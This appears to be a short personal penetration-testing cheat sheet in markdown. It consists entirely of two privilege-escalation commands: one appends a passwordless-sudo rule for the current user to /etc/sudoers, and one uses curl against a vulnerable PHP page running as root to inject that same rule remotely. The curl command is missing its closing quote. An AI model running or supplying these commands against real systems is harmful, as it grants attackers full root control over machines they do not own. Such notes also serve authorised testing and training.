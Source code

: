 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Add user to /etc/sudoers file
```bash - target
echo '$USER ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers
```

#### curl LFI page ran as root
```bash - kali
curl $TARGET:8080/start_page.php?page=cmd.php --data "cmd=echo '$USER ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
